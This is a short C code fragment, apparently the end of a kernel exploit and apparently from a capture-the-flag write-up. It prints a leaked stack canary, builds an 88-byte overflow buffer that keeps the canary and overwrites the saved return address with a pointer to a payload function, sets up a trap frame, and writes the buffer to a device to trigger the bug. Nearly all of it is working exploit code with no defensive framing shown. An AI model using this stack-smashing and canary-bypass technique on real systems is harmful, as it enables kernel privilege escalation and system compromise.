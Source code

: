 ```C
    memcpy(canary, buffer+0x20, 4);
    printf("CANARY:");
    for (i = 0; i < 4; i++) printf("%02x", canary[i] & 0xff);
    printf("\n");
    char exp[88];
    memset(exp, 0x41, 88);
    memcpy(exp+64, canary, 4);
    *((void **)(exp+64+4+4+4+4+4)) = &payload; 
    printf("[*]payload:%s\n", exp);
    printf("Triger bug:\n");
    prepare_tf();
    write(fd, exp, 88);
    return 0;
}

```

